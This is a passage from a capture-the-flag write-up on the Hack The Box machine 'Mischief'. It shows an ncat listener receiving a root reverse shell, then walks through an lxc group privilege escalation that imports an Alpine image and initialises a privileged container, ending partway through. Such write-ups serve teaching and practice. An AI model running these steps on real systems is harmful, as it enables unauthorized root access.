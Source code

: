 ```

root@kali# nc -6 -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Connection from dead:beef::250:56ff:feb2:7cff.
Ncat: Connection from dead:beef::250:56ff:feb2:7cff:48886.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

```

### Option #3 - lxc [PATCHED]

On release, loki was in the group that allowed that user to run `lxc` commands. LXC (Linux Containers) is an operation-system-level virtualization method. But much like [being in the docker group gave me root access in Olympus](/2018/09/22/htb-olympus.html), the same vulnerability exists with `lxc`.

This was patched on 16 July:

![1546490704616](https://0xdfimages.gitlab.io/img/1546490704616.png)

I’ll run an `lxc` image with the system `/` mounted inside the image, and make sure I’m root in the image:

```

loki@Mischief:/dev/shm/.df$ lxc image import alpine-v3.8-x86_64-20180711_0823.tar.gz --alias alpine
Image imported with fingerprint: b20b7859ced4cb00e9229397c089a4d72f87f96364658c9be9ffe739c03cdf38

loki@Mischief:/dev/shm/.df$ lxc image list
+--------+--------------+--------+------------------------------+--------+--------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |         DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+--------+--------------+--------+------------------------------+--------+--------+-------------------------------+
| alpine | b20b7859ced4 | no     | alpine v3.8 (20180711_08:23) | x86_64 | 2.49MB | Jul 11, 2018 at 12:26pm (UTC) |
+--------+--------------+--------+------------------------------+--------+--------+-------------------------------+

loki@Mischief:/dev/shm/.df$ lxc init alpine priv -c security.privileged=true
Creating priv
Error: No storage pool found. Please create a new storage pool.

loki@Mischief:/dev/shm/.df$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:
Create a new BTRFS pool? (yes/no) [default=yes]:
Would you like to use an existing block device? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=15GB]: 1
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

loki@Mischief:/dev/shm/.df$ lxc init alpine priv -c security.privileged=true
```